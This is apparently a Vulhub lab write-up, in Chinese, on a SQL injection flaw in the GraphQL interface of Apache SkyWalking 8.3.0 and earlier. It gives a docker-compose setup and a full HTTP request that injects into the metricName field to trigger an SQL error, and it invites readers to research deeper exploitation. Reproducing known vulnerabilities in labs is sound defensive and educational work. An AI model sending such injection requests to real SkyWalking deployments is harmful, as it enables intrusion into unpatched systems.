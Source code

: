 # Apache Skywalking 8.3.0 SQL注入漏洞

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 漏洞环境

执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

我们使用graphiql的桌面APP发送如下graphql查询：

![](1.png)

可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

更加深入的利用，大家可以自行研究，并欢迎将文档提交到Vulhub中。
